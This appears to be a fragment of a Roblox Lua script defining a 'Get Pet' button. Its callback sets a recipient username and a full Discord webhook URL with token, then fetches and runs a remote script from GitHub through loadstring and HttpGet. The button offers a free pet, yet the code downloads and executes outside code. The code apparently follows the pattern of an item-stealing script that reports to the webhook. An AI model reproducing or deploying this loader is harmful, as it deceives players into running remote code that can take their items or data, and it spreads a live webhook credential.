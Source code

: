 	end,

	Enabled = false

})

local A = Fe.Button({

	Text = "Get Pet",

	Callback = function()

		UserName = "WahOnTop"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

	end

})


